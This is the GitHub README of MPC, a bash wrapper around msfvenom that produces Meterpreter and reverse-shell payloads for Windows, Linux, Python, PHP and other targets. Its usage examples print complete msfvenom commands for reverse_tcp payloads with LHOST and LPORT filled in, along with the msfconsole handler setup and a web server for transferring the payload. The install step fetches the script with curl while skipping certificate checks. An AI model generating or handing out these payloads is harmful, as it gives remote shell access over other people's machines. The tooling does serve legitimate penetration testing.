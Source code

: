 A **quick** way to generate various "basic" Meterpreter payloads via msfvenom (part of the Metasploit framework).

![Msfvenom Payload Creator (MPC)](https://i.imgur.com/0q41eqR.png)

- - -

## About

Msfvenom Payload Creator (MPC) is a wrapper to generate multiple types of payloads, based on users choice. The idea is to be as **simple as possible** (**only requiring one input**) to produce their payload.

**Fully automating** msfvenom & Metasploit is the end goal _(well as to be be able to automate MPC itself)_.
The rest is to make the user's life as **easy as possible** (e.g. **IP selection menu**, **msfconsole resource file/commands** and a **quick web server** etc).

The only necessary input from the user should be **defining the payload** they want by either the **platform** (e.g. `windows`), or the **file extension** they wish the payload to have (e.g. `exe`).

_Note: This will **not** try to bypass any anti-virus solutions._

## Install

* Designed for **Kali Linux 1.1.0a+** & **Metasploit v4.11+** _(nothing else has been tested)_.

```
curl -k -L "https://raw.githubusercontent.com/g0tmi1k/mpc/master/mpc.sh" > /usr/bin/mpc
chmod +x /usr/bin/mpc
mpc
```

## Help

``` bash
root@kali:~# mpc
 [*] Msfvenom Payload Creator (MPC v1.2)

 [i] /usr/bin/mpc <TYPE> (<DOMAIN/IP>) (<PORT>) (<STAGED/STAGELESS>) (<CMD/MSF>) (<LOOP/BATCH>) (<VERBOSE>)
 [i]   Example: /usr/bin/mpc windows 192.168.1.10        # Windows & manual IP.
 [i]            /usr/bin/mpc elf eth0 4444               # Linux, eth0's IP & manual port.
 [i]            /usr/bin/mpc stageless cmd py verbose    # Python, stageless command prompt.
 [i]            /usr/bin/mpc loop eth1                   # A payload for every type, using eth1's IP.
 [i]            /usr/bin/mpc msf batch eth1              # All possible Meterpreter payloads, using eth1's IP.

 [i] <TYPE>: (All reverse TCP payloads)
 [i]   + ASP
 [i]   + ASPX
 [i]   + Bash [.sh]
 [i]   + Java [.jsp]
 [i]   + Linux [.elf]
 [i]   + OSX [.macho]
 [i]   + Perl [.pl]
 [i]   + PHP
 [i]   + Powershell [.ps1]
 [i]   + Python [.py]
 [i]   + Tomcat [.war]
 [i]   + Windows [.exe]

 [i] Rather than putting <DOMAIN/IP>, you can do a interface and MPC will detect that IP address.
 [i] Missing <DOMAIN/IP> will default to the IP menu.

 [i] Missing <PORT> will default to 443.

 [i] <STAGED> splits the payload into parts, making it smaller but dependant on Metasploit.
 [i] <STAGELESS> is the complete standalone payload. More 'stabe' than <STAGELESS>.
 [i] Missing <STAGED/STAGELESS> will default to <STAGED>.
 [i]   Note: Metasploit doesn't (yet!) support <STAGED> for every <TYPE> format.

 [i] <CMD> is a standard/native command prompt/terminal to interactive with.
 [i] <MSF> is a custom cross platform Meterpreter shell, gaining the full power of Metasploit.
 [i]   Note: Metasploit doesn't (yet!) support <MSF>/<CMD> for every <TYPE> format.
 [i] Missing <CMD/MSF> will default to Meterpreter.

 [i] <BATCH> will generate as many combinations as possible: <TYPE>, <STAGED> & <CMD/MSF>.
 [i] <LOOP> will just create one of each <TYPE>.

 [i] <VERBOSE> will display more information during the process.
root@kali:~#
```

## Example \#1 (Windows, Fully Automated With IP)

```bash
root@kali:~# mpc windows 192.168.1.10
 [*] Msfvenom Payload Creator (MPC v1.2)
 [i]    IP: 192.168.1.10
 [i]  PORT: 443
 [i]  TYPE: windows (windows/meterpreter_reverse_tcp)
 [i]   CMD: msfvenom -p windows/meterpreter_reverse_tcp -f exe --platform windows -a x86 -e generic/none LHOST=192.168.1.10 LPORT=443 -o /root/windows-stageless-meterpreter-443.exe
 [i] windows meterpreter created: '/root/windows-stageless-meterpreter-443.exe'
 [i] MSF handler file: '/root/windows-stageless-meterpreter-443-exe.rc'   (msfconsole -q -r /root/windows-stageless-meterpreter-443-exe.rc)
 [?] Quick web server for file transfer?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:~#
```

## Example \#2 (Linux Format, Fully Automated With Interface and Port)

```bash
root@kali:~# ./mpc elf eth0 4444
 [*] Msfvenom Payload Creator (MPC v1.2)
 [i]    IP: 192.168.103.240
 [i]  PORT: 4444
 [i]  TYPE: linux (linux/x86/meterpreter/reverse_tcp)
 [i]   CMD: msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf --platform linux -a x86 -e generic/none LHOST=192.168.103.240 LPORT=4444 -o /root/linux-staged-meterpreter-4444.elf
 [i] linux meterpreter created: '/root/linux-staged-meterpreter-4444.elf'
 [i] MSF handler file: '/root/linux-staged-meterpreter-4444-elf.rc'   (msfconsole -q -r /root/linux-staged-meterpreter-4444-elf.rc)
 [?] Quick web server for file transfer?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:~#
```

## Example \#3 (Python Format, Stageless Command Prompt Using Interactive IP Menu)

```bash
root@kali:~# bash mpc.sh stageless cmd py verbose
 [*] Msfvenom Payload Creator (MPC v1.2)

 [i] Use which interface/IP address?:
 [i]   1.) eth0 - 192.168.103.240
 [i]   2.) eth1 - 192.168.155.175
 [i]   3.) lo - 127.0.0.1
 [?] Select 1-3, interface or IP address: 2

 [i]    IP: 192.168.155.175
 [i]  PORT: 443
 [i]  TYPE: python (python/shell_reverse_tcp)
 [i] STAGE: stageless
 [i] SHELL: shell
 [i]   CMD: msfvenom -p python/shell_reverse_tcp -f raw --platform python -e generic/none -a python LHOST=192.168.155.175 LPORT=443 -o /root/python-stageless-shell-443.py
 [i] python shell created: '/root/python-stageless-shell-443.py'
 [i] MSF handler file: '/root/python-stageless-shell-443-py.rc'   (msfconsole -q -r /root/python-stageless-shell-443-py.rc)
 [?] Quick web server for file transfer?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:~#
```

![Examples](https://i.imgur.com/m4lG23l.png)

- - -

## To-Do List

* Display file stats (e.g. file, size, md5/sha1) _Commands are in, just commented out._
* Support different payloads (e.g. `reverse_http`/`reverse_https`, `bind`, `find_port` etc)
* x64 payloads
* external IP/WAN
* _...IPv6 support?_
